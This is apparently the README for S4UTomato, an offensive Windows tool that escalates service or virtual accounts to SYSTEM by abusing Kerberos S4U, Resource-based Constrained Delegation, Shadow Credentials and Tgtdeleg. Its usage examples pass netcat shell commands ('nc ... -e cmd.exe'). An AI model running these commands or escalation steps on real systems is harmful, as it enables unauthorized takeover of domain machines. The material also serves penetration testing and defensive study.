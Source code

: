 # S4UTomato

Escalate Service Account To LocalSystem via Kerberos.

# Traditional Potatoes

Friends familiar with the "Potato" series of privilege escalation should know that it can elevate service account privileges to local system privileges. The early exploitation techniques of "Potato" are almost identical: leveraging certain features of COM interfaces, deceiving the NT AUTHORITY\SYSTEM account to connect and authenticate to an attacker-controlled RPC server. Then, through a series of API calls, an intermediary (NTLM Relay) attack is executed during this authentication process, resulting in the generation of an access token for the NT AUTHORITY\SYSTEM account on the local system. Finally, this token is stolen, and the `CreateProcessWithToken()` or `CreateProcessAsUser()` function is used to pass the token and create a new process to obtain SYSTEM privileges.

# How About Kerberos

In a Windows domain environment, SYSTEM, NT AUTHORITY\NETWORK SERVICE, and Microsoft virtual accounts are used for authentication by system computer accounts that are joined to the domain. Understanding this is crucial because in modern versions of Windows, most Windows services run by default using Microsoft virtual accounts. Notably, IIS and MSSQL use these virtual accounts, and I believe other applications might also employ them. Therefore, we can abuse the S4U extension to obtain the service ticket for the domain administrator account "Administrator" on the local machine. Then, with the help of James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo))'s  [*SCMUACBypass*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), we can use that ticket to create a system service and gain SYSTEM privileges. This achieves the same effect as traditional methods used in the "Potato" family of privilege escalation techniques.

In any scenario where a machine is joined to a domain, you can leverage the aforementioned techniques for local privilege escalation as long as you can run code under the context of a Windows service account or a Microsoft virtual account, provided that the Active Directory hasn't been hardened to fully defend against such attacks.

Before this, we need to obtain a TGT (Ticket Granting Ticket) for the local machine account. This is not easy because of the restrictions imposed by service account permissions, preventing us from obtaining the computer's Long-term Key and thus being unable to construct a KRB_AS_REQ request. To accomplish the aforementioned goal, I leveraged three techniques: [*Resource-based Constrained Delegation*](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html), [*Shadow Credentials*](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), and [*Tgtdeleg*](https://twitter.com/gentilkiwi/status/998219775485661184). I built my project based on the  [Rubeus](https://github.com/GhostPack/Rubeus#tgtdeleg) toolset.

# How to Use and Examples

```cmd
C:\Users\whoami\Desktop>S4UTomato.exe --help

S4UTomato 1.0.0-beta
Copyright (c) 2023

  -d, --Domain              Domain (FQDN) to authenticate to.
  -s, --Server              Host name of domain controller or LDAP server.
  -m, --ComputerName        The new computer account to create.
  -p, --ComputerPassword    The password of the new computer account to be created.
  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer
                            object.
  -c, --Command             Program to run.
  -v, --Verbose             Output verbose debug information.
  --help                    Display this help screen.
  --version                 Display version information.
```

### LEP via Resource-based Constrained Delegation

```cmd
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/images/rbcd.gif)

### LEP via Shadow Credentials + S4U2self

```cmd
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/images/shadowcred.gif)

### LEP via Tgtdeleg + S4U2self

```cmd
# First retrieve the TGT through Tgtdeleg
S4UTomato.exe tgtdeleg
# Then run SCMUACBypass to obtain SYSTEM privilege
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/images/tgtdeleg.gif)
